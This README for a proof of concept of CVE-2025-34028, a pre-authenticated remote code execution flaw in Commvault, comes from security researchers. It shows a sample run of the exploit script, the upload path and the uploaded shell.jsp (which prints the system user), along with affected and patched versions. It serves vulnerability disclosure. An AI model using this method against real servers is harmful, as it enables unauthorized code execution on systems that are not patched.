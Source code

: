 
# CVE-2025-34028
A Commvault Pre-Authenticated Remote Code Execution Proof of Concept

See our [blog post](https://labs.watchtowr.com/) for technical details

# Detection in Action


```
 python watchtowr-vs-commvault-rce-CVE-2025-34028.py --url https://192.168.1.1
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        watchtowr-vs-commvault-rce-CVE-2025-34028.py
        (*) Commvault Unauthenticated Remote Code Execution (CVE-2025-34028) POC by watchTowr

          - Sonny , watchTowr (sonny@watchTowr.com)

        CVEs: [CVE-2025-34028]

[*] Targeting https://192.168.1.1
[*] Verifying presence of Commvault
[*] Uploading to  /reports/MetricsUpload/2GfMIJdK/
[*] Fetching System User from  https://192.168.1.1/reports/MetricsUpload/2GfMIJdK/.tmp/dist-cc/dist-cc/shell.jsp
[*] System User EC2XXX-XXXXXXX$

```

# Description

This script is a proof of concept for CVE-2025-34028, for Commvault Web Interfaces. By uploading a zip file containing a code execution .jsp file, the zip file is uploaded to a public facing directory and the system user is detailed within the response. More details are described within our [blog post] (https://labs.watchtowr.com/).

# Note
The PoC script uses a hardcoded zip file containing the following files:
* /ccApp/index.html
* shell.jsp

Shell.jsp contents:

```
<%@ page import="java.util.*" %>
<html>
<body>
  <h3>System Information</h3>
  <p>Current User: <%= System.getProperty("user.name") %></p>
</body>
</html>
```

# Affected Versions

* Commvault Windows and Linux 11.38.0 - 11.38.19

# Remediated Versions

* Commvault Windows and Linux 11.38.20 as of April 10, 2025
* Commvault Windows and Linux 11.38.25 as of April 10, 2025

More details at [Commvault Advisory](https://documentation.commvault.com/securityadvisories/CV_2025_04_1.html)


# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber
